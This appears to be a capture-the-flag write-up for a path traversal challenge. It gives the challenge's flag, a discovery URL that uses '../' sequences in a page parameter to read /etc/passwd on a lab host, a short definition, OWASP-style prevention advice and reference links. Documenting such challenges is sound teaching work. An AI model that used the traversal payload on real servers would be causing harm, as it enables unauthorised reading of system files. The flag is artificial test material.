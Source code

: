 # PATH TRAVERSAL

## Flag
```
b12c4b2cb8094750ae121a676269aa9e2872d07c06e429d25a63196ec1c8c1d0
```

## Discovery
On the page  http://{IP_ADDRESS}/index.php


```diff
# element inspector
http://10.12.100.171/?page=../../../../../../../etc/passwd
```
## Use
> A path traversal attack (also known as directory traversal) aims to access files and directories that are stored outside the web root folder.

## Prevention
> - Prefer working without user input when using file system calls
> - Use indexes rather than actual portions of file names when templating or using language files (ie value 5 from the user submission = Czechoslovakian, rather than expecting the user to return “Czechoslovakian”)
> - Ensure the user cannot supply all parts of the path – surround it with your path code
> - Validate the user’s input by only accepting known good – do not sanitize the data
> - Use chrooted jails and code access policies to restrict where the files can be obtained or saved to
> - If forced to use user input for file operations, normalize the input before using in file io API’s, such as normalize().


## Documentation
- [owasp - Path Traversal](https://owasp.org/www-community/attacks/Path_Traversal)

- [youtube - Path Traversal Attack Explication et Exploitation](https://www.youtube.com/watch?v=rK5TFXom34w&ab_channel=prodigiousMind)
---